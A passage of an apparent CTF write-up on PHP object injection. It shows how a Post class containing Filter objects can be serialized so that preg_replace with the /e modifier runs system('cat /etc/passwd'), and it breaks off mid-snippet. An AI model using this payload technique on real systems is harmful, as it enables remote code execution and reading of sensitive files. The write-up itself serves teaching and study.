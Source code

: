 after looking at the source code of the class.php a little closer, I found that the Post class would be the perfect object to serialize and inject; 

```php
	class Post {
		protected $title;
		protected $text;
		protected $filters;
		function __construct($title, $text, $filters) {
			$this->title = $title;
			$this->text = $text;
			$this->filters = $filters;
	}

```

the class accepts 3 parameters in the constructor

- title
- text
- filter

where title is a string, text is also a string, while filter is an array of objects from the Filter class.

```php
	class Filter {
		protected $pattern;
		protected $repl;
		function __construct($pattern, $repl) {
		  $this->pattern = $pattern;
		  $this->repl = $repl;
		}
		function filter($data) {
		  return preg_replace($this->pattern, $this->repl, $data);
		}
	};
```

And how convenient, because the Filter class makes a good use of the preg_replace() function! This is really good, because considering we are in control of the object, we can forge the regular expressions for the Filter object, and this allows us, to create a regexp that instead of replacing, would execute our substitution payload.

To build the object i created this simple PHP snipplet:

```php
<?php

class Filter {
    protected $pattern;
    protected $repl;

    function __construct($pattern, $repl) {
      $this->pattern = $pattern;
      $this->repl = $repl;
    }
    function filter($data) {
      return preg_replace($this->pattern, $this->repl, $data);
    }

}

$filterobject = [new Filter("/test/e", "system('cat /etc/passwd');")];

class Post
{
   protected $title = "test";
```